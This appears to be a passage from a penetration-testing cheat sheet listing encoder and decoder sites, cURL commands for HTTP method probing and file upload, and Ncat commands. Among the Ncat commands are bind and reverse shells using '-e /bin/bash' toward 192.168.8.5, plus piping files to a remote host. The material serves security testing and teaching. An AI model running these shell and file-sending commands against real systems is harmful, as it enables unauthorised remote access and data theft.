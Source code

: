 [jsonlint.com](https://jsonlint.com)

[www.base64decode.org](https://www.base64decode.org)

[www.urldecoder.org](https://www.urldecoder.org)

[raikia.com/tool-powershell-encoder](https://raikia.com/tool-powershell-encoder)

[bitly.com](https://bitly.com)

[www.getcreditcardnumbers.com](https://www.getcreditcardnumbers.com)

[www.first.org/cvss/calculator/3.0](https://www.first.org/cvss/calculator/3.0)

<p id="curl"/>

### cURL

Download a file:

```fundamental
curl somesite.com/somefile.txt --output somefile.txt
```

Test a server for various HTTP methods:

```fundamental
curl -v -X TRACE somesite.com

curl -v -X TRACE somesite.com --insecure

curl -v -X OPTIONS somesite.com --include

curl -v somesite.com --upload-file somefile.txt
```

For more options run `man curl` or `curl -h`.

<p id="ncat"/>

### Ncat

[Server] Set up a listener:

```fundamental
ncat -nvlp 9000

ncat -nvlp 9000 > received_data.txt

ncat -nvlp 9000 -e /bin/bash

ncat -nvlp 9000 -e /bin/bash --ssl

ncat -nvlp 9000 --keep-open <<< "HTTP/1.1 200 OK\r\n\r\n"
```

[Client] Connect to a remote host:

```fundamental
ncat -nv 192.168.8.5 9000

ncat -nv 192.168.8.5 9000 < sent_data.txt

ncat -nv 192.168.8.5 9000 -e /bin/bash

ncat -nv 192.168.8.5 9000 -e /bin/bash --ssl
```
For more options run `man ncat` or `ncat -h`.
